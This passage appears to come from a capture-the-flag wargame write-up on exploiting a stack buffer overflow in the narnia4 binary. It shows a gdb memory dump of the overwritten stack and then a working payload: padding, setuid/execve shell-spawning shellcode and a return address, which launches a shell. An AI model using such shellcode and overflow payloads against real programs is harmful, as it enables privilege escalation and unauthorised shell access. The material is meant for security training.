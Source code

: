 0xffffd460:	0x00000000	0xf7ff39c0	0xf7e6dd6b	0xf7ffcff4
0xffffd470:	0x00000002	0x080483b0	0x00000000	0x080483d1
0xffffd480:	0x080484ad	0x00000002	0xffffd4a4	0x08048550
0xffffd490:	0x080485c0	0xf7fee590	0xffffd49c	0xf7ffd908
0xffffd4a0:	0x00000002	0xffffd5f3	0xffffd601	0x00000000
0xffffd4b0:	0xffffd716	0xffffd729	0xffffd75c	0xffffd767
0xffffd4c0:	0xffffd777	0xffffd7c5	0xffffd7d7	0xffffd809
0xffffd4d0:	0xffffd813	0xffffdd34	0xffffdd62	0xffffddb0
0xffffd4e0:	0xffffddbe	0xffffddc9	0xffffdde1	0xffffde23
0xffffd4f0:	0xffffde32	0xffffde3c	0xffffde4d	0xffffde64
0xffffd500:	0xffffde79	0xffffde82	0xffffde95	0xffffdea0
0xffffd510:	0xffffdea8	0xffffded4	0xffffdee1	0xffffdf43
0xffffd520:	0xffffdf80	0xffffdf8d	0xffffdf9a	0xffffdfb3
0xffffd530:	0x00000000	0x00000020	0xf7fded00	0x00000021
0xffffd540:	0xf7fde000	0x00000010	0x0fabfbff	0x00000006
0xffffd550:	0x00001000	0x00000011	0x00000064	0x00000003
0xffffd560:	0x08048034	0x00000004	0x00000020	0x00000005
0xffffd570:	0x00000008	0x00000007	0xf7fe0000	0x00000008
0xffffd580:	0x00000000	0x00000009	0x080483b0	0x0000000b
0xffffd590:	0x00000000	0x0000000c	0x00000000	0x0000000d
0xffffd5a0:	0x00000000	0x0000000e	0x00000000	0x00000017
0xffffd5b0:	0x00000000	0x00000019	0xffffd5db	0x0000001f
0xffffd5c0:	0xffffdfea	0x0000000f	0xffffd5eb	0x00000000
0xffffd5d0:	0x00000000	0x00000000	0x0d000000	0xa1628788
0xffffd5e0:	0x159f4aea	0x401aef6a	0x691a76d9	0x00363836
0xffffd5f0:	0x2f000000	0x746f6f72	0x72616e2f	0x3461696e
0xffffd600:	0x41414100	0x41414141	0x41414141	0x41414141
0xffffd610:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd620:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd630:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd640:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd650:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd660:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd670:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd680:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd690:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd6a0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd6b0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd6c0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd6d0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd6e0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd6f0:	0x41414141	0x52525241	0x52525252	0x52525252
0xffffd700:	0x52525252	0x52525252	0x52525252	0x52525252
0xffffd710:	0x41414152	0x00000041	0x00000000	0x00000000
>```
>
> Ok, so it looks like we can return back to ```0xffffd6f4``` and put our shellcode there.  Let's try it.
>
>```
(gdb) run $(python -c 'print "A"*244+"\x31\xdb\x8d\x43\x17\x99\xcd\x80\x31\xc9\x51\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x8d\x41\x0b\x89\xe3\xcd\x80"+"\xf4\xd6\xff\xff"')
Starting program: /root/narnia4 $(python -c 'print "A"*244+"\x31\xdb\x8d\x43\x17\x99\xcd\x80\x31\xc9\x51\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x8d\x41\x0b\x89\xe3\xcd\x80"+"\xf4\xd6\xff\xff"')
warning: no loadable sections found in added symbol-file system-supplied DSO at 0xf7fde000
process 6592 is executing new program: /bin/dash
warning: Selected architecture i386:x86-64 is not compatible with reported target architecture i386
Architecture of file not recognized.
>```
>
> We've seen this before.  It looks like everything is working locally (just the wrong architecture for the shellcode).  Let's move to the server and see if we need to remap anything.
>
>```asm